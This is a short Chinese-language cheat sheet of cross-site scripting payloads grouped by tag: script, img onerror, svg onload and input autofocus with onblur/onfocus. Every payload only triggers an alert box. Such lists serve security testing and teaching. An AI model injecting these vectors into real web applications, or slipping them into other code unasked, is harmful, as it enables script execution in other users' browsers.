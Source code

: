 
# Web安全中的XSS

## 标签

### xss-demo

```html
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>xss-demo</title>
</head>
<body>
<input onblur=alert("xss") autofocus><input autofocus>
</body>
</html>
```



### \<scirpt>

```html
<script>alert(1)</script>
<script>alert(1);</script>
<script>javascript:alert(1)</script>
```

### \<img>

```html
<img src=x onerror=alert(1)>
```

### \<svg>

```html
<svg/onload=alert(1)>
```



```html
<svg onload=alert%26%230000000040"1")>
```



### \<input>

```html
# 竞争焦点，从而触发onblur事件
<input onblur=alert("xss") autofocus><input autofocus>
# 通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
<input onfocus="alert('xss');" autofocus>
```
